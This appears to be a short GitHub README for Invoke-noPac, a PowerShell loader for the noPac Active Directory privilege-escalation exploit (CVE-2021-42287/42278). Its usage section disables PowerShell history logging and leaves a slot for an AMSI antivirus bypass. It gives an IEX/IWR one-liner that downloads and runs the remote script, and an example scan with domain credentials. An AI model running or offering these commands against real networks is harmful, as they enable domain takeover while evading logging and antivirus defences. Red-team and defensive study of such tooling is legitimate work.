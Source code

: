 # Invoke-noPac

Assembly loader for the CVE-2021-42287/CVE-2021-42278 Scanner & Exploiter (https://github.com/cube0x0/noPac), PowerSharpPack (https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style.

Usage:

Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

IEX(IWR -UseBasicParsing -UserAgent "hi-there-purple-team" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac

Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!'"
